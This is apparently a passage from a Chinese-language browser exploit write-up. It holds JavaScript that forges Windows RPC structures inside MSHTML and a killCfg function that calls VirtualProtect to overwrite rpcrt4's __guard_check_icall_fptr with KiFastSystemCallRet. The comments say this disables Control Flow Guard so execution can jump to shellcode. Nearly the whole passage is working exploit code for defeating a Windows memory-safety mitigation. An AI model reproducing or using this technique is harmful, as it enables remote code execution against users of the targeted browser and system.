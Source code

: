```
           _MIDL_STUB_DESC.set(_MIDL_STUB_DESC_Buffer, 'RpcInterfaceInformation', PRPC_CLIENT_INTERFACE_Buffer)
           _MIDL_STUB_DESC.set(_MIDL_STUB_DESC_Buffer, 'pfnAllocate', NdrOleAllocate)
           _MIDL_STUB_DESC.set(_MIDL_STUB_DESC_Buffer, 'pfnFree', NdrOleFree)
           _MIDL_STUB_DESC.set(_MIDL_STUB_DESC_Buffer, 'pFormatTypes', buffer2)
           _MIDL_STUB_DESC.set(_MIDL_STUB_DESC_Buffer, 'fCheckBounds', 1)
           _MIDL_STUB_DESC.set(_MIDL_STUB_DESC_Buffer, 'Version', 0x50002)
           _MIDL_STUB_DESC.set(_MIDL_STUB_DESC_Buffer, 'MIDLVersion', 0x800025b)
           _MIDL_STUB_DESC.set(_MIDL_STUB_DESC_Buffer, 'mFlags', 1)
           _MIDL_SERVER_INFO_.set(_MIDL_SERVER_INFO_Buffer, 'pStubDesc', _MIDL_STUB_DESC_Buffer)
           _MIDL_SERVER_INFO_.set(_MIDL_SERVER_INFO_Buffer, 'DispatchTable', createArrayBuffer(32))
           _MIDL_SERVER_INFO_.set(_MIDL_SERVER_INFO_Buffer, 'ProcString', rpcProcStringBuffer)
           _MIDL_SERVER_INFO_.set(_MIDL_SERVER_INFO_Buffer, 'FmtStringOffset', buffer2)
           RPC_DISPATCH_TABLE.set(RPC_DISPATCH_TABLE_Buffer, 'DispatchTableCount', 1)
           RPC_DISPATCH_TABLE.set(RPC_DISPATCH_TABLE_Buffer, 'DispatchTable', NdrServerCall2Buffer)
           PRPC_CLIENT_INTERFACE.set(PRPC_CLIENT_INTERFACE_Buffer, 'DispatchTable', RPC_DISPATCH_TABLE_Buffer)
           PRPC_CLIENT_INTERFACE.set(PRPC_CLIENT_INTERFACE_Buffer, 'InterpreterInfo', _MIDL_SERVER_INFO_Buffer)
           PRPC_CLIENT_INTERFACE.set(PRPC_CLIENT_INTERFACE_Buffer, 'Length', PRPC_CLIENT_INTERFACE.size())
           PRPC_CLIENT_INTERFACE.set(PRPC_CLIENT_INTERFACE_Buffer, 'InterfaceId.SyntaxVersion.MajorVersion', 1)
           PRPC_CLIENT_INTERFACE.set(PRPC_CLIENT_INTERFACE_Buffer, 'TransferSyntax.SyntaxVersion.MajorVersion', 2)
           PRPC_CLIENT_INTERFACE.set(PRPC_CLIENT_INTERFACE_Buffer, 'Flags', 0x4000000)
           _RPC_MESSAGE.set(RPCMessageObject, 'RpcInterfaceInformation', PRPC_CLIENT_INTERFACE_Buffer)
           _RPC_MESSAGE.set(RPCMessageObject, 'TransferSyntax', TransferSyntaxBuffer)
           _RPC_MESSAGE.set(RPCMessageObject, 'Handle', MSHTMLSymbolBuffer)
           _RPC_MESSAGE.set(RPCMessageObject, 'DataRepresentation', 16)
           _RPC_MESSAGE.set(RPCMessageObject, 'RpcFlags', 0x1000)
           _RPC_MESSAGE.set(RPCMessageObject, 'Buffer', buffer)
           _RPC_MESSAGE.set(RPCMessageObject, 'BufferLength', 48)
           return RPCMessageObject
       }

```

通过覆盖 rpcrt4_guard_check_icall_fptr 中保存的函数指针, 修改为 KiFastSystemCallRet 关闭 CFG 保护. 使其可以跳转到 shellcode.

```
function killCfg(addr) {
      var cfgobj = new CFGObject(addr)
      if (!cfgobj.getCFGValue()) return
      var guard_check_icall_fptr_address = cfgobj.getCFGAddress()
      var KiFastSystemCallRet = getProcAddr(ntdll, 'KiFastSystemCallRet')
      var tmpBuffer = createArrayBuffer(4)
      // 修改RPCRT4!__guard_check_icall_fptr的属性为PAGE_EXECUTE_READWRITE
      call2(VirtualProtect, [guard_check_icall_fptr_address, 0x1000, 0x40, tmpBuffer])
      // 替换rpcrt4!__guard_check_icall_fptr保存的指针，修改ntdll!LdrpValidateUserCallTarget为改为ntdll!KiFastSystemCallRet
      // 关闭rpcrt4的CFG检查
      write(guard_check_icall_fptr_address, KiFastSystemCallRet, 32)
      // 恢复PRCRT4!__gurad_check_icall_fptr内存属性
      call2(VirtualProtect, [guard_check_icall_fptr_address, 0x1000, read(tmpBuffer, 32), tmpBuffer])
      map.delete(tmpBuffer)
  }

```
